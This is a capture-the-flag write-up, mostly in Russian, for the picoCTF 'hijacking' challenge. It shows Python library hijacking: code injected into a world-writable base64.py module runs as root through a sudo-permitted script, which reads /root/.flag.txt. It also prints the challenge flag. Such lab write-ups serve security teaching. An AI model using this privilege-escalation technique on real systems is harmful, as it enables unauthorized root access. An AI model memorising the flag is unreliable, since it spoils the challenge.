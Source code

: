 # hijacking #
Category: Binary Exploitation

 
Score: 200
 
 Original description: Getting root access can allow you to read the flag. Luckily there is a python file that you might like to play with.
Through Social engineering, we've got the credentials to use on the server. SSH is running on the server.
 
 
# Hints
1. Check for Hidden files

2. No place like Home:)

   
## Solution ##
 
Подключаемся по ssh.

Посмотрим скрытые файлы:

``picoctf@challenge:~$ ls -al
total 20
drwxr-xr-x 1 picoctf picoctf   36 Apr  1 10:16 .
drwxr-xr-x 1 root    root      21 Mar 16 02:08 ..
-rw-r--r-- 1 picoctf picoctf  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 picoctf picoctf 3771 Feb 25  2020 .bashrc
drwx------ 2 picoctf picoctf   34 Apr  1 10:05 .cache
-rw-r--r-- 1 picoctf picoctf  807 Feb 25  2020 .profile
-rw-r--r-- 1 root    root     375 Mar 16 01:30 .server.py
-rw------- 1 picoctf picoctf  960 Apr  1 10:16 .viminfo``

Запустим .server.py

picoctf@challenge:~$ python3 .server.py
sh: 1: ping: not found
Traceback (most recent call last):
  File ".server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname

Выдает ошибку.

Посмотрим через cat файлик:

picoctf@challenge:~$ cat .server.py
import base64
import os
import socket
ip = 'picoctf.org'
response = os.system("ping -c 1 " + ip)
#saving ping details to a variable
host_info = socket.gethostbyaddr(ip) 
#getting IP from a domaine
host_info_to_str = str(host_info[2])
host_info = base64.b64encode(host_info_to_str.encode('ascii'))
print("Hello, this is a part of information gathering",'Host: ', host_info) 

Найдём местоположение используемых модулей :

picoctf@challenge:~$ python3
Python 3.8.10 (default, Nov 14 2022, 12:59:47) 
[GCC 9.4.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> import sys
>>> sys.path
['', '/usr/lib/python38.zip', '/usr/lib/python3.8', '/usr/lib/python3.8/lib-dynload', '/usr/local/lib/python3.8/dist-packages', '/usr/lib/python3/dist-packages']

Глядя на разрешения base64 модуля внутри /usr/lib/python3.8, мы имеем полный доступ для чтения, записи и выполнения.

picoctf@challenge:~$ ls -al /usr/lib/python3.8
-rwxrwxrwx 1 root root  20382 Nov 14 12:59 base64.py

Итак, можно модифицировать импортированный base64 модуль с помощью нашего собственного кода, т.к. весь код в импортированном модуле выполняется при импорте.

Проверим, какие команды можно запускать через sudo :

picoctf@challenge:~$ sudo -l
Matching Defaults entries for picoctf on challenge:
  env_reset, mail_badpass,
  secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User picoctf may run the following commands on challenge:
  (ALL) /usr/bin/vi
  (root) NOPASSWD: /usr/bin/python3 /home/picoctf/.server.py

Добавим в начало/lib/python3.8/base64.py через vim следующие строки :

import os
os.system('whoami')
os.system('ls -al /root > /home/picoctf/r.txt')
os.system('cat /root/.flag.txt')

Запусим .server.py:

picoctf@challenge:~$ sudo python3 /home/picoctf/.server.py
root
picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}
sh: 1: ping: not found
Traceback (most recent call last):
  File "/home/picoctf/.server.py", line 7, in <module>
    host_info = socket.gethostbyaddr(ip) 
socket.gaierror: [Errno -5] No address associated with hostname


flag: picoCTF{pYth0nn_libraryH!j@CK!n9_6924176e}


